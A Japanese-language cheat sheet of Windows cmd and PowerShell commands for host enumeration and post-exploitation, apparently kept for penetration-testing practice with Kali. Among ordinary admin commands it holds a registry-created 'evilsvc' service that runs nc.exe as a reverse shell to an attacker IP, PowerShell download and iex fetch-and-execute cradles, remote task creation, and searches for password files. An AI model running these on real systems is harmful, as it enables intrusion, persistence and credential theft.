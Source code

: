 # windows command

## cmd

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
    
    tasklist /m
```

* schtasks

```bat
    schtasks /?
    schtasks /Create /?
    # /S: 接続先リモートシステム
    # /U: ユーザ名
    # /P: パスワード
    # /TN: タスク名
    # /SC: スケジュール(1回) 
    # /SD: 開始日
    # /ST: 開始時刻
    # /TR: 実行タスク
    # /F: 指定したタスクが既に存在する場合、タスクを強制的に作成し、警告を抑制
    # /RL: ジョブの実行レベルを設定
    
    #タスク作成
    schtasks /Create /S 192.168.xxx.xxx /U <user> /P <password> /TN sample /SC ONCE /SD 1900/01/01 /ST 00:00 /TR C:¥Remote¥test.bat
    # タスク実行
    schtasks /run /tn <タスク名>
    # タスクの削除
    schtasks /delete /f /tn <タスク名>
    # タスクの一覧表示(詳細)
    schtasks /query /fo list /v
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
```

* ドメイン情報

``` bat
    #　ドメコン名とかの取得
    nltest /dsgetdc:<domain>
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | find "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*  
　  # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

``` bat
    #wordpressから[nc.exe]をfile uploadする必要がある。
    reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe XXX.XX.XX.XX PPPP -e cmd\"" /f

    #再起動できる場合は再起動
    shutdown /r /t 0 /f
```

* sc

``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # サービス情報の表示
    sc qc <service_name>
    # サービス起動
    sc start <service_name>
    # サービス停止
    sc stop <service_name>
```

* wmic

``` bat
    #システム情報
    wmic computersystem LIST full
    #サービス検索
    wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\"
    #ファイル検索
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE
    #プロセス操作
    wmic process call create ‘C:¥Windows¥System32¥notepad.exe‘
```

* whoami

``` bat
    whoami
    #権限表示
    whoami /priv
    #グループ表示
    whoami /group
```

## PowerShell

* バージョン確認

``` powershell
    $PsVersionTable
```

* ファイルダウンロード

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc.exe" -OutFile "nc.exe")
    
    iwr -Uri http://XXX.XXX.XXX.XXX/<file_name> -OutFile "<file_path>\<file_name>>"
    
    iex(new-object net.webclient).downloadstring('http://XXX.XXX.XXX.XXX/<file_name>')
```

* 共有ドライブ

``` powershell
    powershell -Command "Get-WmiObject -class Win32_Share"
```

* プロセス操作

``` ps
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList ‘C:¥Windows¥System32¥notepad.exe’
```

* テキスト検索

``` ps
    #-path 検索ファイルのパス
    #-pattern 検索するテキスト
    #passwordを含むテキスト検索
    Select-String -path .\*\*\* -pattern password
```
